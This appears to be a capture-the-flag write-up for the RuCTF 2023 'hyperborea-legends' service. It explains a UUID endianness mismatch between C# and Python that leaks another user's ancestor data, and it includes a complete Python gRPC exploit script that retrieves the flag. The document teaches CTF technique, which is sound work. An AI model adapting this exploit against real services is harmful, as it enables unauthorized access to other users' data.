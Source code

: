 # RuCTF 2023 | hyperborea-legends

## Description

It provides a service to store your ancestors info and simple interact with them for russes and lizards

## Unintended solutions

Unfortunately, I made a mistake when writing service that allows get flags without using alleged vulnerability... :/
The intended solution is shown below.

## Execution flow

First of all, service operated uuids in bytes between different languages: C# and Python.
String representation of uuid from bytes looks different in this languages, due to the byte order used in different language. So it "reverse" uuid (change endian) when it tranferred from C# to Python.

So there was a python script that transferred users info from database to cache. 
In user info there was info about direct ancestors (which can be user only by lizards) - list of the str uuids - this info was always missed by the cache, when used endpoint for get ancestors.

In addition, the service allowed you to create an ancestor using the entered uuid.

So the vuln was carried out by the following steps:

1. Create ancestor with "reversed" uuid of flag bearer ancestor
2. Then add created ancestor to youre direct ancestors list
3. Wait until this data is transferred into cache
4. Then you can check flag bearer ancestor info (becase this id now is in our direct ancestors list) and get the flag!

Python expoit(omitting the moments of how to connect to grpc):
```python
#!/usr/bin/env python3.11

import sys
import time
import uuid
from base64 import b64decode

import grpc

from ancestor_grpc.ancestor_pb2 import GetAncestorRequest, AncestorData, AddDirectAncestorRequest
from ancestor_grpc.ancestor_pb2_grpc import AncestorServStub
from auth_grpc.auth_pb2 import RegisterRequest, LoginRequest
from auth_grpc.auth_pb2_grpc import AutherStub

IP = sys.argv[1] if len(sys.argv) > 1 else 'localhost'
PORT = 42424
PUBLIC_FLAG_ID = b64decode(sys.argv[2]) if len(sys.argv) > 2 else ''

LE_PUBLIC_FLAG_ID = uuid.UUID(bytes=PUBLIC_FLAG_ID).bytes_le


def sploit():
    with grpc.insecure_channel(f'{IP}:{PORT}') as channel:
        auth_stub = AutherStub(channel)
        ancestor_stub = AncestorServStub(channel)

        username = str(uuid.uuid4())

        # register new user
        try:
            auth_stub.Register(RegisterRequest(username=username, password='password', species_type='FilthyLizard'))
        except grpc.RpcError:
            pass

        # login to that user
        token = auth_stub.Login(LoginRequest(username=username, password='password')).access_token
        metadata = (('authorization', f'Bearer {token}'),)

        # try to create ancestor with "reversed" uuid
        try:
            ancestor_stub.CreateAncestor(AncestorData(
                id=LE_PUBLIC_FLAG_ID,
                name='abracadabra',
                description='description',
                ancestor_type='FilthyLizard',
                burial_place='123',
            ), metadata=metadata)
        except grpc.RpcError:
            pass

        # add created ancestor to direct ancestors list
        try:
            ancestor_stub.AddDirectAncestor(AddDirectAncestorRequest(ancestor_id=LE_PUBLIC_FLAG_ID), metadata=metadata)
        except grpc.RpcError:
            pass

        # wait for ancestors list transfer to redis
        time.sleep(11)

        # now we have "reverse" of "reverse" uuid => uuid of flag, so we can see burial place of ancestor
        ancestor: AncestorData = ancestor_stub.GetAncestor(GetAncestorRequest(id=PUBLIC_FLAG_ID), metadata=metadata)
        print(ancestor.burial_place)


if __name__ == '__main__':
    sploit()
```


